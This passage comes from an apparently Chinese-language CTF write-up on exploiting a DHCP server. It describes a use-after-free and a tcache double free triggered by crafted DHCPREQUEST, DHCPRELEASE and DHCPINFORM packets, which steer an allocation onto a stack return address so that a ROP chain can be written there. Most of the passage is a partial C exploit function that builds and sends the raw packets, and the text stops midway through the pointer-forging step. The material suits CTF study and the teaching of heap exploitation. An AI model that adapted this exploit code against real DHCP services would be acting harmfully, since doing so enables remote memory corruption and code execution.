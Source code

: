 1. 发送DHCPREQUEST，申请新的lease，uid为chunk0

2. 发送DHCPRELEASE，释放chunk0

3. 发送DHCPREQUEST，申请回chunk0，再释放chunk0，构造UAF

4. 发送DHCPRELEASE，再次释放chunk0，构造double free

   > 题目给的libc-2.27.so版本比较老，可以直接释放两次在tcache构造double free，不会造成崩溃

5. 发送2次DHCPINFORM，伪造chunk0的tcache next指针，指向栈上返回地址

6. 发送DHCPINFORM，申请到栈上返回地址处内存，写入ROP

```c {hide=true}
void exploit() {
    uint8_t *buf = NULL;
    size_t buf_len = 0;
    dhcp_req_t req[4] = { 0, };
    dhcp_req_t tmp_req = { 0, };

    buf = malloc(0x1000);
    for (size_t i = 0; i < 3; i++) {
        req[i].addr_in.sin_addr.s_addr = src_addr_in.sin_addr.s_addr + htonl(i+1);
        req[i].uid_type = 0;
        memset(req[i].uid, '0'+i, 0x47);
        req[i].uid_len = strlen(req[i].uid);
    }

    // malloc 0x50 chunk0-2
    for (size_t i = 0; i < 3; i++) {
        sleep(3);
        xid = random();
        memset(buf, 0, 0x1000);
        create_dhcp_request_packet(buf, &buf_len, req[i]);
        send_raw_pkt(buf, buf_len);
    }
    printf("[*] alloc 0x50 chunks.\n");
    
    // free chunk0
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_release_packet(buf, &buf_len, req[0]);
    send_raw_pkt(buf, buf_len);
    printf("[*] free chunk0.\n");

    // alloc and free chunk0 (UAF)
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_request_packet(buf, &buf_len, req[0]);
    send_raw_pkt(buf, buf_len);

    // free chunk0 (double free)
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_release_packet(buf, &buf_len, req[0]);
    send_raw_pkt(buf, buf_len);
    printf("[*] free chunk0.\n");

    // fake 0x50 tcache next
    memset(&tmp_req, 0, sizeof(dhcp_req_t));
    tmp_req.addr_in.sin_addr.s_addr = req[2].addr_in.sin_addr.s_addr;
    tmp_req.uid_len = 0x47;

```